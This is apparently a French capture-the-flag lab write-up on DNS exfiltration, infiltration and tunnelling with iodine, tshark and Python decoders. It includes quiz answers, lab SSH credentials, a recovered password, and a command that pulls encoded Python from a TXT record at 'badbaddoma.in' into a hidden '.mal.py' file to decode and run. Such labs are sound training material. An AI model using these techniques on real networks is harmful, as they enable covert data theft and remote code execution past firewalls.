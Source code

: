 ## Manipulation de DNS

Lors de ce TP nous explorerons les techniques utilisées pour exfiltrer et infiltrer les données à travers des serveurs DNS.<br/>

A quoi servent les serveurs DNS ?<br/>
Le DNS est un système de noms de domaine faisant référence à un système de nommage qui résout les noms de domaine avec des adresses IP. Les serveurs DNS sont répartis dans le monde entier et sont constamment mis à jour et synchronisés entre eux de manière systématique.
<p align="center">
  <img src="https://blog.nameshield.com/fr/wp-content/uploads/sites/3/2017/04/r%C3%A9solution-dns-2-5.jpg"/>
</p>

L'objet sera d'explorer les techniques pour exfiltrer et infiltrer les données ainsi que le Tunneling de DNS Tunneling et comment il peut être utilisé pour bypasser différents protocoles comme HTTP via DNS.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/798809211060355092/intro-2-1.png"/>
</p>

##### Installation de l'environnement de travail pour le TP :

```console
$ git clone https://github.com/kleosdc/dns-exfil-infil

$ sudo apt-get update
$ sudo apt-get install python3-pip
$ export PATH=/usr/local/bin:$PATH

$ sudo pip3 install base58
$ sudo pip3 install pyshark
```

Iodine permet de tunneler les données IPv4 via un serveur DNS. Cela peut être utile dans différentes situations où l'accès Internet est protégé par un pare-feu, mais les requêtes DNS sont autorisées.

Installer iodine :
```console
$ sudo apt-get install iodine
```

Wireshark est un analyseur de paquets libre et gratuit. 

Installer Wireshark :
```console
$ sudo apt-get install tshark
```

---

#### DNS :

Sous Windows, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : nslookup type=txt youtube.com
```

Sous Linux, quelle commande utiliser pour requêter un enregistrement txt pour Facebook.com ?
```console
Réponse : dig -t txt facebook.com
```

Quel type d'adresses IP stocke le AAAA avec le nom de hôte ?
```console
Réponse : IPv6
```

Le nombre maximum de caracttères pour un enrigrement DNS est de 256. Vrai/Faux ?
```console
Réponse : Faux
```

Quel enregistrement DNS donne le nom du domaine en reverse-lookup ?
```console
Réponse : PTR
```

Quel serait le résultat d'un reverse-lookup pour l'adresse IPv4 suivante : 192.168.203.2 ?
```console
$ dig -x 192.168.203.2
```

```console
Réponse : 2.203.168.192.in-addr.arpa
```

Quelle est la taille maximale d'un nom DNS ? (en incluant les points!)
```console
Réponse : 253
```

---

#### Exfiltration DNS :

L'exfiltration DNS est une technique qui consiste à utiliser le DNS pour dérober des données.<br/>
Cette technique est principalement utilisée comme moyen de collecter des informations personnelles telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.<br/>
Cela consiste à ajouter des chaînes contenant le « butin » souhaité aux requêtes DNS UDP. La chaîne contenant le butin est alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes. Pour un oeil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

Se connecter à la machine cible en SHH en utilisant les crédentials :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

Le .pcap extension de fichier est principalement associée avec Wireshark; un programme utilisé pour l'analyse de réseaux. .pcap fichiers sont des fichiers de données créés en utilisant le programme et ils contiennent les données en paquets d'un réseau. Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
$ tshark -r order.pcap -T fields -e dns.qry.name > DNS_names.txt
```

Le script ~/dns-exfil-infil/packetyGrabber.py permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transation ? 
```console
Réponse : Network Equip.
```

Quel est le montant de la transaction Firewall ?
```console
Réponse : 2500
```

Aller dans le dossier ci-dessous :
```console
~/challenges/exfiltration/identity
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
tshark -r cap1.pcap -T fields -e dns.qry.name
```

Quel fichier contient des requêtes DNS douteuses ?
```console
Réponse : cap3.pcap
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : administrator:s3cre7P@ssword
```

---

#### Infiltration DNS :

L'infiltration DNS est une autre technique d'attaque qui exploite les vulnérabilités des DNS. Cette technique passe par un code malveillant qui est exécuté pour manipuler les serveurs DNS soit à l'aide de systèmes automatisés qui permettent aux attaquants de se connecter à distance à l'infrastructure réseau, soit à l'aide de programme frauduleux.<br/>
Le but étant souvent de supprimer des fichiers ou d'exécuter du code sur les machines ciblées.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807297515518427197/infil.png"/>
</p>

Récupérer un enregistrement au format TXT du sous-domaine `code` du domaine `badbaddoma.in` : 
```console
$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \" -f2 > .mal.py
```

Le contenu représente du code python crypté.<br/>
Décrypter le contenu avec le script python ~/dns-exfil-infil/packetySimple.py :
```console
$ python3 ~/dns-exfil-infil/packetySimple.py
```

Exécuter le script et afficher le résultat :
```console
Réponse : 4.4.0-186-generic
```
